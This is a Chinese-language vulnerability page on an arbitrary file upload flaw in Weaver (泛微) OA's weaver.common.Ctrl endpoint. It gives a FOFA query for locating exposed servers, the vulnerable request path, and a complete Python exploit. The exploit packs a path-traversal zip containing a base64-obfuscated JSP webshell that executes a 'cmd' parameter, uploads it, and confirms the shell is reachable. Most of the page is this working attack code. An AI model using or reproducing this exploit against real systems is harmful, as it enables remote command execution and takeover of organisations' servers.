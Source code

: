 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞

## 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 泛微OA 

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

存在漏洞的路径为

```
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

请求包为

![](http://wikioss.peiqi.tech/vuln/fanwei-36.png)

​	使用POC文件上传

![](http://wikioss.peiqi.tech/vuln/fanwei-37.png)

## 漏洞POC

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)

def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
    else:
        print('未找到webshell利用失败')

def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        GetShell(url)
    else:
        print("python3 poc.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

## 参考文章

[原漏洞公开地址](https://github.com/GTX8090TI/GTX8090TI.github.io/blob/6dd04a19bbc4fcef436e0b2f05c15bc98ac0c852/2021/05/02/%E6%B3%9B%E5%BE%AEOA-%E5%89%8D%E5%8F%B0GetShell%E5%A4%8D%E7%8E%B0/index.html)
